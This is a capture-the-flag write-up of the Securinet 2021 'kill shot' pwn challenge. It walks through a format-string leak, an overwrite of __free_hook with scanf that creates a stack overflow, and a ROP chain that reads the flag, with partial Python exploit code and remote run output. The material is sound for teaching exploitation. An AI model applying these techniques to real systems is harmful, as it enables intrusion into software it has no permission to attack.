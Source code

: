 ```yaml
---
layout: post
title: kill shot [pwn]
author: hugsy
tags: [pwn, elf64, formatstring, heap]
date: 2021-03-21 20:54 
---
```


 * Competition: [Securinet CTF Quals 2021](https://www.ctfsecurinets.com/challenges)
 * Challenge Name: kill shot
 * Type: pwn
 * Points: 1000 pts
 * Description: 
 > Let's learn some exploitation!
 >

<!--more-->

## Reconnaissance

`kill_shot` is a small ELF64 with all traditional mitigations enabled.
```
$ checksec ./kill_shot
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

In addition, a quick look at the disassembly shows it loads restrictive seccomp rules early in the `main`, which we can dump using [seccomp-tools](https://github.com/david942j/seccomp-tools):
```
$ seccomp-tools dump ./kill_shot
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```
Only a handful of syscalls are allowed (no `execve` and the like), but enough to read the flag and get it back. This is important mostly for the payload building part, but we're not there yet.
Finally, the challenge gives us the following hint:
```
flag is in /home/ctf/flag.txt
```

## Overview

The runtime operates in 3 steps:
 1. Step 1 gives us a controlled format string after making sure we can't use `%n` to write to arbitrary locations. It is however sufficient to leak everything else we need (libc pointers, exe mapped pointers, etc.) to defeat ASLR.
 2. Step 2 gives a totally arbitray write: we can overwrite 8 bytes at any location of our choosing
 3. Step 3 (last) offers some very basic heap manipulation: we can either 
    - create new chunks of controlled size and write the content (i.e. `malloc`+`read`)
    - free those chunks (i.e. `free`)

There's no bug is the allocation/free part (such as heap overflow, double free, etc.) and we can only have a maximum of 9 `malloc`-ed chunks.


## Exploit

My original idea was that, since `mprotect` is allowed, the intended purpose is to gain code execution via the arbitrary write, and `mprotect` as `rwx` the heap, when our shellcode would be sitting, doing the typical (`sys_open`, `sys_read`, `sys_write`).
After wasting a few hours on this, I went a totally different way: we can abuse the fact that `malloc` and `free` can be called on demand, to trigger some function to be called as we wish, and with a pointer to a location we control the content, via the `__malloc_hook` and `__free_hook` function pointers.
The issue with the current arbitrary write, is that it allows to gain quickly arbitrary code execution but with little to no control over the rest (registers, stack). So I decided to use `scanf` as target of my arbitrary overwrite, `scanf` is a perfect candidate since we fully control the format string all we need to find is a stack pointer and write a "%s" at that offset. This would have for effect to change our arbitrary write into a stack overflow (and no canary please).

After a few tests, the 4th offset was a good candidate (i.e. `scanf("%4$s")`), and we fully control $pc and the stack.

![image](https://user-images.githubusercontent.com/590234/111921156-3d931c00-8a50-11eb-8bb0-e1576f72028b.png)

The rest was simply find gadgets from the binary and the libc, enough to open, read the flag file, and write it to stdout.

So to recap, the exploit flow was:
1. use the format string to leak elf base, libc base
2. use the arb, write to overwrite `__free_hook` with `scanf`
```python
    addr = libc.symbols["__free_hook"]
    r.sendafter(b"Pointer: ", str(addr))
    r.sendafter(b"Content: ", p64(libc.symbols["scanf"]))
```
3. allocate a chunk with "%s" inside and free it to trigger a stack bof
```python
    if LOCAL:
        alloc(r, b"/tmp/flag.txt\0", 0x100) # 0
    else:
        alloc(r, b"/home/ctf/flag.txt\0", 0x100) # 0
    alloc(r, b"%4$s") # 1
    free(r, 1)
```

4. now we have a regular stack bof
```python
    rop = flat([
        [...]
        p64(libc.symbols["openat"]),
        [...]
        p64(libc.symbols["read"]),
        [...]
        p64(libc.symbols["write"]),
    ])        
```

When done, we can remotely read the flag:

```bash
$ ./xp.py remote
[+] Opening connection to bin.q21.ctfsecurinets.com on port 1338: Done
[*] step 1: leak stuff
[+] leaked addresses:
0x563765daa240
0x563765da9b10
0x7ffd0d86b5e0
0x169ebea30560a000
0x563765daa240
0x7f85cf4adb97
[+] found elf at 563765da9000
[+] found libc at 7f85cf48c000
[*] step 2: overwrite __free_hook with scanf
[+] overwritten __free_hook
[*] step 3: trigger stack overflow
[*] Switching to interactive mode
flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}\x00\x00\x00\x00\x00\x00\x00\x00
```

My full exploit can be found [here](https://gist.github.com/hugsy/3dae779cf60eb3ecdbe64749855d62cc).
